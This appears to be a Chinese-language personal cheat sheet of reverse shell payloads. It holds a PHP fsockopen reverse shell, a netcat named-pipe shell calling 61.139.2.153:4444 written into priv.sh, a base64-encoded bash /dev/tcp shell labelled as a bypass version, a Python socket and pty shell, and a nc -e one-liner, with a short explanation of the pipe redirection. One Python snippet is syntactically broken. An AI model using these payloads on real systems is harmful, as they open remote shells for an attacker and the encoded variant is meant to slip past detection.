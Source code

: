 ^0be5ac

## php版本
```php
<?php  
$ip = '攻击者IP'; // 替换为攻击者监听IP  
$port = 监听端口; // 替换为攻击者监听端口  
$sock = fsockopen($ip, $port);  
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);  
$process = proc_open('/bin/sh', $descriptorspec, $pipes);  
proc_close($process);  
?>
```

## 脚本
```
echo 'mknod backpipe p && nc 61.139.2.153 4444 0<backpipe | /bin/bash 1>backpipe' > priv.sh

mknod backpipe p
作用​​：创建一个名为 backpipe`的​​命名管道（FIFO）​



0<backpipe | /bin/bash 1>backpipe
-将 `backpipe` 管道的内容作为 `nc` 命令的​**​标准输入（stdin）​**​

/bin/bash`​
    启动一个 Bash Shell 进程。
    
1>backpipe：  
    将 Bash 的​标准输出（stdout）​​重定向到 `backpipe` 管道

```

## 绕过版
```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMC4xMjgvODg4OCAwPiYx" | base64 -d | bash

bash -i >& /dev/tcp/192.168.110.128/8888 0>&1
```

## python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.110.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
### 第二版
```
import sys import os os.system("nc -e /bin/bash 192.168.0.108 1234")
```
